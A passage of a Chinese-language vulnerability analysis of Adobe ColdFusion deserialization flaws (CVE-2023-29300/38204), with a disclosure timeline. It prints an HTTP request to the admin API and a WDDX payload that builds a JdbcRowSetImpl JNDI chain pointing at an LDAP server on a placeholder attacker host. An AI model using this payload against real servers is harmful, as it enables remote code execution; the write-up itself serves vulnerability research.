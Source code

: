 ```http
POST /CFIDE/adminapi/base.cfc?method HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 365
Content-Type: application/x-www-form-urlencoded

argumentCollection=/* payload */
```

这样我们就能跳过`if`，调用`GetArgumentCollection()`方法将序列化后的恶意数据传入服务器了。

### 0x04 漏洞利用 

因此，我们类比 FastJson，不难想到通过调用`JdbcRowSetImpl`类的`setDataSourceName`和`setAutoCommit`两个 `setter` 方法来构造 JNDI 利用链。此利用链被赋予 CVE 编号 `CVE-2023-38204`。

```xml
<wddxPacket version='1.0'>
    <header/>
    <data>
        <struct type='xcom.sun.rowset.JdbcRowSetImplx'>
            <var name='dataSourceName'>
                <string>ldap://attacker:1389/Evil</string>
            </var>
            <var name='autoCommit'>
                <boolean value='true'/>
            </var>
        </struct>
    </data>
</wddxPacket>
```

![图片.png](https://cdn.nlark.com/yuque/0/2023/png/26096065/1689734849994-02bded5e-6f02-4a39-8ae5-3f3c577a5c3d.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)



我们注意到在 `WEB-INF/bundles `及其子文件夹 repo 下还存有大量 Jar 包。在“存在即合理”的假设前提下，我们将所有 Jar 添加进了工作环境，在此基础上继续挖掘新的利用链，并成功实现了一种带有限制的新的利用方式。

### 0x05 漏洞时间线 

CVE-2023-29300

●2023.7.11 官方发布安全公告

●2023.7.12 ProjectDiscovery 分析文章发布，未意识到 0day 公布

●2023.7.13 ProjectDiscovery 隐藏分析文章

●2023.7.14 漏洞修复

